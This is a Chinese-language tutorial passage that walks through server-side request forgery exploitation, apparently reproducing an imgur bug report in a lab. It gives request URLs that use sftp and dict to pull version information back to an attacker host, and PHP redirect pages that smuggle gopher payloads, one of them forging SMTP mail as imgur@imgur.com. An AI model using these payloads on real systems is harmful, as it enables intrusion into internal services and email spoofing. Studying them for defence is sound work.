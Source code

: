 **简单的利用，信息泄露**

利用SSH和DICT协议获取软件版本信息

sftp(需要curl编译安装libssh库)访问:`http://victim:8084/ssrf.php?url=sftp://attacker:11111/`

[![](http://static.wooyun.org//drops/20160318/2016031808183951780.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/03/F90A5E0B-F339-40F7-A8DC-140FBCF3505C.jpg)

DICT访问`http://victim:8084/ssrf.php?url=dict://attacker:11111/`[![](http://static.wooyun.org//drops/20160318/2016031808183981394.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/03/F83A4EAE-C755-46AF-8BAC-6384B740859A.jpg)

可以看到服务使用的软件版本，`libssh2 1.4.3`和`libcurl 7.35.0`。查看下CVE

`libssh2 1.4.3`可能受 CVE-2015-1782 影响

报告中imgur服务器中的软件版本是`libcurl 7.40.0`可能受 CVE-2015-3144 和 CVE-2015-3237影响，我们的版本为`libcurl 7.35.0`，不受影响

* * *

**利用GOPHER协议伪造发送邮件**

先介绍下GOPHER协议，来自百度知道～

`Gopher协议是一种互联网没有发展起来之前的一种从远程服务器上获取数据的协议。Gopher协议目前已经很少使用，它几乎已经完全被HTTP协议取代了。`

因为GOPHER协议支持newlines，所以可以用来发起类似TELNET chat-session的请求，比如SMTP，Redis server等。漏洞报告中提到imgur过滤了url参数中的newlines，但imgur server支持302跳转，所以可以构造一个302跳转的页面，结合GOPHER协议来完成攻击。

先测试一下GOPHER协议的效果，构造302跳转页面 gopher.php

```
<?php
header('Location: gopher://attacker:11111/_HI%0AMultiline%0Atest');
?>

```

访问`http://victim:8084/ssrf.php?url=http://attacker/gopher.php`

attacker端：

[![](http://static.wooyun.org//drops/20160318/2016031808183953884.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/03/9BF07BD2-D848-4609-9C57-0D08087BA647.jpg)

接下来是发送邮件，本来想用国内的邮箱试试的，然而都加了登陆验证来防止垃圾邮件。

报告中给了一个 http://test.smtp.org/ 的网站，可以用来测试，这里修改了收件人，不然不会发送成功

smtp.php:

```
<?php
        $commands = array(
                'HELO test.org',
                'MAIL FROM: <imgur@imgur.com>',
                'RCPT TO: postmaster@test.smtp.org',
                'DATA',
                'Test mail',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://smtp.163.com:25/_'.$payload);
?>

```
